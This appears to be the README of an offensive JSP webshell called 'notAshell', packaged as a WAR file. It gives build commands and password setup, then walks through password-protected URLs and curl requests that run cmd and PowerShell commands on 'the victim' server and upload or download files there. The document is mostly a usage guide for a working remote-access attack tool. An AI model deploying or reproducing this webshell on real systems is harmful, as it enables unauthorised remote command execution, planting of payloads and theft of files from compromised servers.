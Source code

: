 ## War structure
```txt
webapp/
├── shell.jsp
└── WEB-INF
    └── web.xml

2 directories, 2 files
```

## How to generate the war file
Just run the following command:
```sh
cd webapp && jar -cvf ../notAshell.war * && cd ..
```

## Setting up the password  
You need to define the password to use when using this webshell. Modify the `param-value` in this line at `webapp/WEB-INF/web.xml`:
```xml
    <context-param>
        <param-name>pass</param-name>
        <param-value>Your-Awesome-Pass</param-value>
    </context-param>
```

## Webshell funcionalities
- `cmd`: Command execution via cmd
- `ps`: Command execution via powershell
- `upload`: Upload files to the server
- `download`: Download files from the server

## Usage
*Note (1): You need to configure the password in the `web.xml` file*

*Note (2): The application name depends on the name you give when creating the `war` file. In this case, we will use the name `notAshell`.*

### Obtain basic information (no `action`)
You can otain Java System properties, global JNDI, hostname and IP configuartion.
- `http://<url>:<port>/notAshell/?pass=Your-Awesome-Pass`

### Execute CMD (`action = cmd`)
Run a command on the victim CMD.
- `http://<url>:<port>/notAshell/?pass=Your-Awesome-Pass&action=cmd&args=dir` 

### Execute PowerShell (`action = ps`)
Run a command on the victim PS.
- `http://<url>:<port>/notAshell/?pass=Your-Awesome-Pass&action=ps&args=ls` 

### Upload a file (`action = upload`)
Upload files to the victim.
- `curl -X POST -F "file=<file_to_upload>" "http://<url>:<port>/notAshell/?pass=Your-Awesome-Pass&action=upload&path=<path_to_upload_at_victim>"`

If the path is not set the file will be placed in the same directory as the webshell.

## Download file or directory (`action = download`)
- `curl "http://<url>:<port>/notAshell/?pass=Your-Awesome-Pass&action=download&path=<file_path>&args=<file_to_download>"`

If the path is not set, it will try to download the file from the same directory as the webshell.

